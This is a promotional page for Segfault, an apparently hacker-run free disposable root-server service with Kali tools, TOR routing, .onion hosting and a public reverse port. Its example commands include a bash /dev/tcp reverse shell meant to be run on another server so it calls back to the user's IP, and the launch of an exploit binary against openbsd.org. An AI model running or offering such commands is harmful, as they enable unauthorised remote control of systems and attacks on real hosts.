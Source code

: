 ```yaml
---
layout: default
---
```


<div style="text-align:center"><h1>Disposable Root Servers</h1></div>

<div style="width:80%; margin:auto">
</div>

### Log in

```shell
ssh root@segfault.net # The password is 'segfault'
```

{:refdef: style="text-align: center;"}
![login screen](sf-login.png){:height="80%" width="80%"}
{: refdef}

### What it does

Segfault offers free unlimitd Root Servers. A new server (inside a Virtual Machine) is created for every SSH connection. 

* Dedicated ```Root Server``` for every user.
* Pre-installed tools on Kali-Linux.
* Outgoing traffic is routed through NordVPN/CryptoStorm/Mullvad.
* Reverse TCP/UDP port on a public IP.
* Transparent TOR to connect to ```.onion``` addresses.
* Log in via ```.onion```, ```.gsocket``` or direct ```ssh``` (port 22 or 443).
* Encrypted DNS traffic (DNS over HTTPS).
* Pre-configured ```.onion``` web server. Just put your files in /onion.
* Encrypted storage in ```/sec``` and ```/home``` with your password. 
* Encrypted storage is only accessible while you are logged in. Keys are wiped on log out.
* Only the user can decrypt the data. We do not have the key.
* No Logs.

### Show me!

The servers are a great place to compile *stuff* and to test *stuff*.

**Install any app you like:**
```shell
apt install nmap && nmap -thc
```

**Work the Internet**
```shell
ping 1.1.1.1
curl ipinfo.io | jq
ssh blah@anotherserver.com
./7350-sshx3-expl openbsd.org
```

**Publish your webpage on the Darknet:**
```shell
# Share files anonymously:
echo "My First File Shared on The Onion Router (TOR) network" >/onion/helloworld.txt
```
```shell
# Or publish a full webpage (using Markdown syntax):
# Edit your webpage in /sec/www/content/*.md and then publish them:
cd /sec/www && make html
```

**Work the DarkNet:**
```shell
w3m http://6nhmgdpnyoljh5uzr5kwlatx2u3diou4ldeommfxjz3wkhalzgjqxzqd.onion/
ssh root@ta6kb6vqm3vd7vlgvf7k4nbhfzst2yfy52t6dqzmz2plteewn7ynmtad.onion
```

**Connect to IRCNet:**
```shell
su user -c "irssi -c ircnet -n MyNickName"
```

**We allow port forwarding and proxies:**
```shell
ssh -D 1080 root@segfault.net
# then from another Terminal on your workstation:
curl -x socks5h://0 ipinfo.io
curl -x socks5h://0 http://6nhmgdpnyoljh5uzr5kwlatx2u3diou4ldeommfxjz3wkhalzgjqxzqd.onion/ 
```

**Connect to your own public PORT:**  
```shell
# On your server:
nc -vnlp 34868 # Find your IP & PORT during first log in.
```
```shell
# On another server start a connect back reverse shell to your IP & PORT:
setsid bash -i &>/dev/tcp/185.117.118.23/34868 0>&1 &
```

### How it works

Read the [FAQ](faq) and join us on [Telegram](https://t.me/thcorg) or read the source on [GitHub](https://github.com/hackerschoice/segfault).

This is a **free service** and there are [some restrictions](youcheapfuck) in place. You may want to [pay for an upgrade and go unrestricted](buy-an-upgrade).

### Contact

Twitter: [https://twitter.com/hackerschoice](https://twitter.com/hackerschoice)  
Telegram: [https://t.me/thcorg](https://t.me/thcorg)  
Web: [https://www.thc.org](https://www.thc.org)  
Medium: [https://medium.com/@hackerschoice](https://medium.com/@hackerschoice)  
E-Mail: members@thc.org  
